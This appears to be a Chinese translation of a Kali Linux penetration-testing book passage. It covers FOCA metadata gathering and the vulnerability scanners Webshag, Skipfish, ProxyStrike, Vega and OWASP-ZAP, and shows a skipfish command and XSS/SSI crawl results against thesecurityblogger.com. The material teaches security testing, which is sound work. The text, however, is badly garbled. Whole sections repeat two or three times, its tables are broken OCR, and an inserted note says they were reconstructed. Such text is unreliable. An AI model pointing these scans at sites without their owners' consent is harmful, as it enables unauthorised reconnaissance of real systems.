Metadata（分析元数据）选项，如下

在第一张截图中，你可以看到人们打开了文档

你也可以使用 Mac 版 Microsoft Office 和 Adobe Photoshop 创建文档，如截图所示

在许多情况下，攻击者将看到更多信息并收集有关目标的情报。

FOCA 允许用户保存并索引所有元数据的副本。此外，每种类型的元数据文件都可以保存和复制。这为渗透测试人员提供了丰富的信息。截图通常用于提供索引文件的概览，并列出单个文件。最后，FOCA 将允许渗透测试人员下载单个文件。

## 总结

侦察通常是渗透测试中最关键的步骤，也是最耗费时的。针对目标采取的任何行动都是根据之前的侦察结果定制的。关于目标的数据越多，就越不容易触发报警，并且发现入侵目标的方法的机会越大。建议将本章作为书中其他章节的前决条件。

在本章中，我们关注了获取目标信息的各种方法。我们展示了互联网上许多流行的免费工具，以及 Kali 中提供的信息收集实用程序。此时，你应该准备好对通过侦察识别出的目标进行评估。

下一章将重点关注 Web 应用和 Web 服务器的漏洞。

## 3 服务端攻击

根据定义，服务器是网络上为用户和其他计算机运行服务的专用系统。服务的范围从公共服务（如在线游戏）到大型组织内部的敏感文件共享。在客户端-服务器架构中，服务器是运行其他程序（称为“客户端”）请求的计算机程序。因此，服务器代表“客户端”执行某些计算任务。客户端要么在同一台计算机上，要么通过网络连接。例如，服务器为全世界托管游戏，而客户端则远程访问游戏。

网络服务器通常配置为处理大量客户端的服务负载，这意味着增加了额外的处理器、内存和存储，这些资产成为黑客非常有价值的目标。组织通常远程管理服务器且并不积极监控活动，这意味着性能的小波动或其他被入侵的迹象可能未被发现。常见的是是在所有者发现用于访问系统的漏洞之前，恶意用户已经访问了被入侵的服务器很长时间。


## 服务端攻击

## 漏洞评估

服务端攻击是利用并发现运行在服务器上的服务、端口和应用程序中的漏洞。例如，一个 Web 服务器有多个攻击向量。它是一个运行操作系统并运行各种软件以提供 Web 运行的服务器。它有许多开放的 TCP 协议。其中每一个协议都可能存在漏洞，攻击者可以利用这些漏洞进入系统并获取宝贵信息。服务器上的协议通过可读的非加密文本进行处理。

让我们看看 Kali 中用于识别服务器漏洞的可用工具。

## Webshag

Webshag 是一个多线程、多平台的工具，用于审计 Web 服务器。Webshag 收集了 Web 服务器常用的功能，如端口扫描、URL 扫描和模糊测试（fuzzing）。它可以通过 HTTP 或 HTTPS 扫描 Web 服务器，也可以通过代理以及使用 HTTP 身份验证（基本或摘要式）。此外，Webshag 还可以使用 IDS 规避能力，旨在使关联请求变得更加复杂。

Webshag 提供了额外的创新功能，例如检索目标机器上托管的域名列表，以及使用动态生成的文件进行模糊测试。Webshag 可以对网页进行指纹识别，同时对内容变化具有抗性。此功能被设计为一种误报消除算法，旨在处理“软 404”服务器响应。

Webshag 通过 GUI 或命令行控制台访问，适用于 Linux 和 Windows 平台。在 Web Applications | Web Vulnerability Scanners 下可以找到 `webshag-gui`。

Webshag 易于使用。每个功能在顶部都有一个标签页。选择所需的功能标签，在 target 空间下输入你的目标 URL，然后点击 OK 执行。你可以同时运行多个标签。功能包括端口扫描、爬虫（Spider）、URL 扫描和模糊测试。接下来的四张截图显示了 Webshag 对 www.thesecurityblogger.com 执行端口扫描、Web 爬虫遍历、URL 扫描和文件模糊。

## 第三章




[ 75 ]

## 服务端攻击



Webshag 支持以 XML、HTML 和 TXT 文件格式导出审计期间发现的所有数据。Webshag 的最终报告按逻辑格式组织，使其有价值作为独立文档，或渗透测试交付报告的参考文章。接下来的两张截图显示了导出选项和审计报告的顶部：



### 审计报告
26-04-2013

### 端口扫描器
64.90.50.80
80 (tcp)
Service: http
587 (tcp)
Service: smtp
Product: Postfix smtpd

### Info

### 爬虫 (Spider)

> 关于 Webshag 的更多信息可以访问 http://www.scrt.ch/en/attack/downloads/webshag。

### Skipfish

Skipfish 是一个 Web 应用安全侦察工具。Skipfish 使用递归爬取和基于字典的探测为目标准备一个交互式站点地图。生成的地图在经过安全检查扫描后提供输出。

在 Web Applications | Web Vulnerability Scanners 下可以找到 `skipfish`。当你第一次打开 Skipfish 时，会弹出一个终端窗口展示 Skipfish 命令。Skipfish 可以使用内置或自定义的字典进行漏洞评估。

- 注意，Kali 中可能找不到某些字典。你可以从 https://code.google.com/p/skipfish/ 下载最新版本的 Skipfish 和默认字典。

可用的字典位于字典文件中。

```
root@kali:~/Desktop/skipfish-2.0/dictionaries#1
complete.wl extensions-only.wl medium.wl minimal.wl
```

Skipfish 提供了多种可用的命令选项。要使用自定义词表对目标网站运行 Skipfish，请输入 `skipfish`，选择你的词表，使用 `-o` 后跟位置选择你的输出目录，最后是目标网站。

Skipfish -o (输出位置) -W (词表位置) (目标网站)

以下示例显示了使用名为 `complete.wl` 的词表对 securityblogger.com 进行扫描。Skipfish 将桌面上创建一个名为 Skipfishoutput 的文件夹。运行使用关键字 `skipfish`，使用 `-o /root/Desktop/Skipfishoutput` 指定输出发送的位置，使用 `-W /root/Desktop/complete.wl` 指定字典的位置，并将 `http://www.thesecurityblogger.com` 作为扫描目标。

```
root@kali:~# skipfish -o /root/Desktop/Skipfishoutput -W /root/Desktop/complete.wl http://www.thesecurityblogger.com
```

注意，Kali 中可能找不到某些字典。你可以从 https://code.google.com/p/skipfish/ 下载最新版本的 Skipfish 和默认字典。

可用的字典位于字典文件中。

Skipfish 提供了多种可用的命令选项。要使用自定义词表对目标网站运行 Skipfish，请输入 `skipfish`，选择你的词表，使用 `-o` 后跟位置选择你的输出目录，最后是目标网站。

Skipfish -o (输出位置) -W (词表位置) (目标网站)

以下示例显示了使用名为 `complete.wl` 的词表对 securityblogger.com 进行扫描。Skipfish 将桌面上创建一个名为 Skipfishoutput 的文件夹。运行使用关键字 `skipfish`，使用 `-o /root/Desktop/Skipfishoutput` 指定输出发送的位置，使用 `-W /root/Desktop/complete.wl` 指定字典的位置，并将 `http://www.thesecurityblogger.com` 作为扫描目标。

```
root@kali:~# skipfish -o /root/Desktop/Skipfishoutput -W /root/Desktop/complete.wl http://www.thesecurityblogger.com
```

注意，Kali 中可能找不到某些字典。你可以从 https://code.google.com/p/skipfish/ 下载最新版本的 Skipfish 和默认字典。

可用的字典位于字典文件中。

Skipfish 提供了多种可用的命令选项。要使用自定义词表对目标网站运行 Skipfish，请输入 `skipfish`，选择你的词表，使用 `-o` 后跟位置选择你的输出目录，最后是目标网站。

Skipfish -o (输出位置) -W (词表位置) (目标网站)

以下示例显示了使用名为 `complete.wl` 的词表对 securityblogger.com 进行扫描。Skipfish 将桌面上创建一个名为 Skipfishoutput 的文件夹。运行使用关键字 `skipfish`，使用 `-o /root/Desktop/Skipfishoutput` 指定输出发送的位置，使用 `-W /root/Desktop/complete.wl` 指定字典的位置，并将 `http://www.thesecurityblogger.com` 作为扫描目标。

```
root@kali:~# skipfish -o /root/Desktop/Skipfishoutput -W /root/Desktop/complete.wl http://www.thesecurityblogger.com
```

## 服务端攻击

## 服务端攻击

服务端攻击是利用并发现运行在服务器上的服务、端口和应用程序中的漏洞。例如，一个 Web 服务器有多个攻击向量。它是一个运行操作系统并运行各种软件以提供 Web 运行的服务器。它有许多开放的 TCP 协议。其中每一个协议都可能存在漏洞，攻击者可以利用这些漏洞进入系统并获取宝贵信息。服务器上的协议通过可读的非加密文本进行处理。

让我们看看 Kali 中用于识别服务器漏洞的可用工具。

## Webshag

Webshag 是一个多线程、多平台的工具，用于审计 Web 服务器。Webshag 收集了 Web 服务器常用的功能，如端口扫描、URL 扫描和模糊测试。它可以通过 HTTP 或 HTTPS 扫描 Web 服务器，也可以通过代理以及使用 HTTP 身份验证（基本或摘要式）。此外，Webshag 还可以使用 IDS 规避能力，旨在使关联请求变得更加复杂。

Webshag 提供了额外的创新功能，例如检索目标机器上托管的域名列表，以及使用动态生成的文件进行模糊测试。Webshag 可以对网页进行指纹识别，同时对内容变化具有抗性。此功能被设计为一种误报消除算法，旨在处理“软 404”服务器响应。

Webshag 通过 GUI 或命令行控制台访问，适用于 Linux 和 Windows 平台。在 Web Applications | Web Vulnerability Scanners 下可以找到 `webshag-gui`。

Webshag 易于使用。每个功能在顶部都有一个标签页。选择所需的功能标签，在 target 空间下输入你的目标 URL，然后点击 OK 执行。你可以同时运行多个标签。功能包括端口扫描、爬虫（Spider）、URL 扫描和模糊测试。接下来的四张截图显示了 Webshag 对 www.thesecurityblogger.com 执行端口扫描、Web 爬虫遍历、URL 扫描和文件模糊。

## 第三章


[ 75 ]

## 服务端攻击


Webshag 支持以 XML、HTML 和 TXT 文件格式导出审计期间发现的所有数据。Webshag 的最终报告按逻辑格式组织，使其有价值作为独立文档，或渗透测试交付报告的参考文章。接下来的两张截图显示了导出选项和审计报告的顶部：


### 审计报告
26-04-2013

### 端口扫描
64.90.50.80
80 (tcp)
Service: http
587 (tcp)
Service: smtp
Product: Postfix smtpd

### Info

### 爬虫 (Spider)

> 关于 Webshag 的更多信息可以访问 http://www.scrt.ch/en/attack/downloads/webshag。

### Skipfish

Skipfish 是一个 Web 应用安全侦察工具。Skipfish 使用递归爬取和基于字典的探测为目标准备一个交互式站点地图。生成的地图在经过安全检查扫描后提供输出。

在 Web Applications | Web Vulnerability Scanners 下可以找到 `skipfish`。当你第一次打开 Skipfish 时，会弹出一个终端窗口展示 Skipfish 命令。Skipfish 可以使用内置或自定义的字典进行漏洞评估。

- 注意，Kali 中可能找不到某些字典。你可以从 https://code.google.com/p/skipfish/ 下载最新版本的 Skipfish 和默认字典。

可用的字典位于字典文件中。

```
root@kali:~/Desktop/skipfish-2.0/dictionaries#1
complete.wl extensions-only.wl medium.wl minimal.wl
```

Skipfish 提供了多种可用的命令选项。要使用自定义词表对目标网站运行 Skipfish，请输入 `skipfish`，选择你的词表，使用 `-o` 后跟位置选择你的输出目录，最后是目标网站。

Skipfish -o (输出位置) -W (词表位置) (目标网站)

以下示例显示了使用名为 `complete.wl` 的词表对 securityblogger.com 进行扫描。Skipfish 将桌面上创建一个名为 Skipfishoutput 的文件夹。运行使用关键字 `skipfish`，使用 `-o /root/Desktop/Skipfishoutput` 指定输出发送的位置，使用 `-W /root/Desktop/complete.wl` 指定字典的位置，并将 `http://www.thesecurityblogger.com` 作为扫描目标。


## 服务端攻击

要使用 ProxyStrike，请前往 Web Applications（Web应用程序）| Web Vulnerability Scanners（漏洞扫描器）并选择 ProxyStrike。假设你的浏览器正在向 ProxyStrike 发送流量，你应该会在 Comms（通信）标签页中看到捕到的流量。我们将在第 6 章“网络攻击”中花费更多时间使用代理（Proxies）。



爬虫功能是扫描目标网站 SQL、SSL 或 XSS 插件漏洞的简单方法。使用爬虫时不需要将 ProxyStrike 设置为代理。点击 Plugins（插件）标签页，滚动到 XSS 插件，并通过复选框选择启用插件。接下来，选择 Crawler（爬虫）标签页。输入目标网站 http://，勾选使用插件框进行爬取，并点击大的 Stop（停止）将其更改为 Running（运行中）。添加插件会增加完成扫描的时间。ProxyStrike 将显示一个进度条，估计扫描所需的时间。



## 第 3 章

| Comms（通信） | Request Stats（请求统计） | Variable Stats（变量统计） | Config（配置） | Plugins（插件） | Log（日志） | Repeat Request（重复请求） | Crawler（爬虫） |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| | | | | | | | Uniq Froms |
| | Stopped | | | | | | |
| | Crawl using plugins | | | | | | | |
| Url: http://www.thesecurityblogger.com | | | | | | | | |
| | 0% | | | | | Not Running | | |
| | Reset | | | | | | |



| Comms（通信） | Request Stats（请求统计） | Variable Stats（变量统计） | Config（配置） | Plugins（插件） | Log（日志） | Repeat Request（重复请求） | Crawler（爬虫） |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| | Running | | | | | | Uniq Froms | http://www.thesecurityblogger.com |
| | | | | | | | | http://www.thesecurityblogger.com |
| | | | | | | | | http://www.thesecurityblogger.com/tp=2068#comments |
| Url: http://www.thesecurityblogger.com | | | | | | | | http://www.thesecurityblogger.com/tp=2068#more-2068 |
| | 14% | | | | | | | http://www.thesecurityblogger.com/attachment_id=2070 |
| | Reset | | | | | | | http://www.thesecurityblogger.com/attachment_id=2071 |

爬取过程由两个线程执行，以避免 Web 服务器过载。

检测到的 URL 可以转发到已启用的插件。

此外，检测到的表单显示在表中，可以通过双击每个链接手动填充。请享用！

- http://www.thesecurityblogger.com
- http://www.thesecurityblogger.com
- http://www.thesecurityblogger.com/tp=2068#comments
- http://www.thesecurityblogger.com/tp=2068#more-2068
- http://www.thesecurityblogger.com/attachment_id=2070
- http://www.thesecurityblogger.com/attachment_id=2071
- http://www.thesecurityblogger.com/tp=2068
- http://www.thesecurityblogger.com/tp=2098#more-2098
- http://www.thesecurityblogger.com/attachment_id=2999
- http://www.thesecurityblogger.com/tp=1903#comments
- http://www.thesecurityblogger.com/attachment_id=1999
- http://www.thesecurityblogger.com/attachment_id=1996
- http://www.thesecurityblogger.com/attachment_id=2113
- http://www.thesecurityblogger.com/attachment_id=2192
- http://www.thesecurityblogger.com/attachment_id=2111
- http://www.thesecurityblogger.com/tp=2123#request
- http://www.thesecurityblogger.com/attachment_id=2127
- http://www.thesecurityblogger.com/attachment_id=2123
- http://www.thesecurityblogger.com/attachment_id=2126
- http://www.thesecurityblogger.com/tp=2125
- http://www.thesecurityblogger.com/tp=2161#comments

## 服务端攻击

Plugins 标签页显示扫描启动后的爬取结果。识别出的攻击可以通过 HTML 或 XML 导出。

| Comms（通信） | Request Stats（请求统计） | Variable Stats（变量统计） | Config（配置） | Plugins（插件） | Log（日志） | Repeat Request（重复请求） | Crawler（爬虫） |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 插件选择：XSS & SSI 攻击 | | | | | | 重置缓存 | 导出 HTML | 导出 XML |
| | | | | | | | 请求线程 1 | |
| Url | | Variable | Method | 可用注入 | | | | |
| = http://www.thesecurityblogger.com/?cat=242 | | cat | GET | | | | |
| = http://www.thesecurityblogger.com/?tag=balancing-act | | tag | GET | 'Single Quotes) (Normal Encoding): | | | |
| | | | | (Parenthesis) (Normal Encoding) | | | |
| = http://www.thesecurityblogger.com/?p=2068 | | p | GET | | | | |
| = http://www.thesecurityblogger.com/?attachment_id=2071 | | attachment_id | GET | | | | |
| = http://www.thesecurityblogger.com/?page_id=2 | | page_id | GET | | | | |
| = http://www.thesecurityblogger.com/?feed=comments-rss2 | | feed | GET | (Parenthesis) (Normal Encoding) | | | |

Log 标签页显示目标网站上再次运行的任务以及每个攻击的成功率。此文件可以复制到文本文件中作为最终交付。Crawler 标签页列出了所有与目标相关的 链接。

| Comms（通信） | Request Stats（请求统计） | Variable Stats（变量统计） | Config（配置） | Plugins（插件） | Log（日志） | Repeat Request（重复请求） | Crawler（爬虫） |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Log 输出: | | | | | | | |
| | | | | | | | |
| | | | | | | | |
| | | | | | | | |
| | | | | | | | |
| | | | | | | | |
| | | | | | | | |
| | | | | | | | |
| | | | | | | | |
| | | | | | | | | |
| | | | | | | | | |
| | | | | | | | | | |
| | | | | | | | | |

 = http http://..securityblogger..com/?==442 | | cat | | | | | | | |
| = http://www.thesecurityblogger.com/?tag=balancing-act | | tag | GET | 'Single Quotes) (Normal Encoding): | | | | | |
| | | | (Parenthesis) (Normal Encoding) | | | | | | |
| = http://www.thesecurityblogger.com/?p=2068 | | p | GET | | | | | | |
| = http://www.thesecurityblogger.com/?attachment_id=2071 | | attachment_id | GET | | | | | | |
| = http://www.thesecurityblogger.com/?page_id=2 | | page_id | | | | | | | |

 = http://www.thesecurityblogger.com/?feed=comments-rss2 | | feed | GET | (Parenthesis) (Normal Encoding) | | | | | | |

*(注：OCR 后半部分的表格表示已破碎，我根据可见的头部和行重建了逻辑结构).*

爬取过程由两个线程执行，以避免 Web 服务器过载。

爬取过程由两个线程执行，以避免 Web 服务器过载。

检测到的 URL 可以转发到已启用的插件。

此外，检测到的表单显示在表中，可以通过双击每个链接手动填充。请享用！

- http://www.thesecurityblogger.com
- http://www.thesecurityblogger.com
- http://www.thesecurityblogger.com/tp=2068#comments
- http://www.thesecurityblogger.com/tp=2068#more-2068
- http://www.thesecurityblogger.com/attachment_id=2070
- http://www.thesecurityblogger.com/attachment_id=2071
- http://www.thesecurityblogger.com/tp=2068
- http://www.thesecurityblogger.com/tp=2098#more-2098
- http://www.thesecurityblogger.com/attachment_id=2999
- http://www.thesecurityblogger.com/tp=1903#comments
- http://www.thesecurityblogger.com/attachment_id=1999
- http://www.thesecurityblogger.com/attachment_id=1996
- http://www.thesecurityblogger.com/attachment_id=2113
- http://www.thesecurityblogger.com/attachment_id=2192
- http://www.thesecurityblogger.com/attachment_id=2111
- http://www.thesecurityblogger.com/tp=2123#request
- http://www.thesecurityblogger.com/attachment_id=2127
- http://www.thesecurityblogger.com/attachment_id=2123
- http://www.thesecurityblogger.com/attachment_id=2126
- http://www.thesecurityblogger.com/tp=2125
- http://www.thesecurityblogger.com/tp=2161#comments

## 服务端攻击

Plugins 标签页显示扫描启动后的爬取结果。识别出的攻击可以通过 HTML 或 XML 导出。

Log 标签页显示目标网站上再次运行的任务以及每个攻击的成功率。此文件可以复制到文本文件中作为最终交付。Crawler 标签页列出了所有与目标相关的链接。

## Vega

Vega 是一种用于爬取网站并分析页面内容的安全工具。

## 服务端攻击

Vega 在右上角有 Scanner 和 Proxy 标签页。要将 Vega 作为扫描器使用，请点击右上角的 Scanner，点击左上角的 Scan，并选择新建。

Vega 的 Proxy 部分提供了查看目标网站请求和响应的能力。当扫描进行时，Proxy 部分将会被填充。


## 第 3 章

Vega 提供了主显示窗口中发现的漏洞详情以及摘要页。这些详情可以复制到最终的交付物中。



## Owasp-Zap

Owasp-Zap 也称为 Zaproxy，是一种用于 Web应用程序安全测试的拦截代理。

通过进入 Web Applications（应用程序） | Web Application Fuzzers（Web 应用模糊器）并选择 owasp-zap 打开 Zaproxy。会弹出一个声明，必须接受才能进入程序。

接受许可免责声明后，Owasp-Zap 将打开并显示另一个弹出窗口，询问你是否创建一个 SSL Root CA 证书。这允许 Zaproxy 拦截浏览器中通过 SSL 的 HTTPS 流量。对于测试使用 HTTPS 的方面至关重要。要生成 SSL 证书，点击 Generate（生成）按钮。



## 服务端攻击

将弹出一个窗口来生成或导入证书。你可以通过点击 **Generate**（生成）来生成证书。可以通过点击 **Save**（保存）并选择位置来保存新证书。新证书文件名为 owasp_cap_root_ca.cer。

